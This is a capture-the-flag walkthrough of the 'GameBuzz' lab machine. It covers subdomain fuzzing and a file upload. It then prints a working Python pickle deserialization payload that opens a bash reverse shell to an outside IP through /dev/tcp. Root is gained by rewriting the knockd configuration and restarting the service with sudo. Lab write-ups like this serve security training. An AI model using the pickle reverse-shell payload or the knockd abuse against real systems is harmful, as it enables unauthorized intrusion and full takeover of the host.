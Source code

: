 ```yaml
---
date: 2021-06-09 09:55:07
layout: post
title: "GameBuzz"
subtitle:
description:
image: /writeup/assets/img/gamebuzz/game.png
optimized_image:
category:
tags:
author:
paginate: false
---
```


Start  with nmap scan
```bash
nmap -T4 -p- -A 10.10.213.80

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 15:12 IST
Nmap scan report for 10.10.213.80
Host is up (1.0s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.29 seconds
```

It shows port 80 is the only open port.

The website at port 80 contains a email address at bottom of the page *admin@incognito.com*. This hints towards the domain name to be incognito.com.
Edit the /etc/hosts file to contain the entry for incognito.com, now visiting incognito.com shows the same website.


The website contains a button at middle of it that shows ratings of the games. Inspecting the request made by the button shows that it loads a pkl file(Python Serialized File) and then shows info extracted from it.
![placeholder](/writeup/assets/img/gamebuzz/endpoint.png "Endpoint")


If somehow we can load our own serialized payload then we can get RCE.

Fuzzing the website for more endpoints gives nothing. So, try to fuzz for subdomains under incognito.com
![placeholder](/writeup/assets/img/gamebuzz/subs.png "subdomains")
This shows that there is a subdomain dev.incognito.com.

Adding the entry for dev.incognito.com in the /etc/hosts file, we can visit the dev.incognito.com site which shows a message "Only for Developers". This might contain some way to upload as this is only meant for developers.
![placeholder](/writeup/assets/img/gamebuzz/dev.png "dev")

Fuzzing for more directories on the subdomains takes us to *dev.incognito.com/secret/upload* which contains a form to upload file.

Since the earlier endpoint loaded file from /var/upload/games, this upload functionaly might be uploading files to /var/upload.

To get RCE we need to first create a serialized payload,
```python
#!/usr/bin/env python3

import pickle, os

class SerializedPickle(object):
    def __reduce__(self):
        return(os.system,("bash -c 'bash -i >& /dev/tcp/10.4.14.69/8888 0>&1'",))

pickle.dump(SerializedPickle(), open('malicious','wb'))
```

Running the above code generates a file named malicious. Upload the file and then request the file by editing the request made to the game ratings endpoint to load */var/upload/malicious*.

This gives a reverse shell. Make the shell better with 
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Switching to user dev2 using **su dev2** switches without any prompt for password.
We get the user.txt inside dev2 user's home directory.

Further enumeration shows that a mail is present for dev1 user,
![placeholder](/writeup/assets/img/gamebuzz/knock.png "knock")

This tells to knock, which hints towards port knocking. Reading /etc/knockd.conf shows
![placeholder](/writeup/assets/img/gamebuzz/knockd.png "knockd")

This shows that using the knock funtionality we can open the 22 port.
```bash
knock Target_IP 5020 6120 7340 -d 500
```

Using the knock command to make requests to the specific ports opens port 22, which can be used to login as dev1 user with the given password.
![placeholder](/writeup/assets/img/gamebuzz/works.png "Login")

Further enumeration shows that dev1 user has special permission(setfacl) on the knockd.conf file, so that he can edit the file.
![placeholder](/writeup/assets/img/gamebuzz/setfacl.png "setfacl")
The small "+" shows that the file has special permissions set. Moreover, dev1 user has control over knockd service as stated in the sudoers file(`sudo -l`)


Edit the knockd.conf file to change the command variable's value to get reverse shell.
![placeholder](/writeup/assets/img/gamebuzz/exploit.png "exploit")

Restart the knockd service
```bash
sudo /etc/init.d/knockd restart
```

Run the knock command again
`knock IP 5020 6120 7340 -d 500` and a reverse shell with root privileges would pop up.
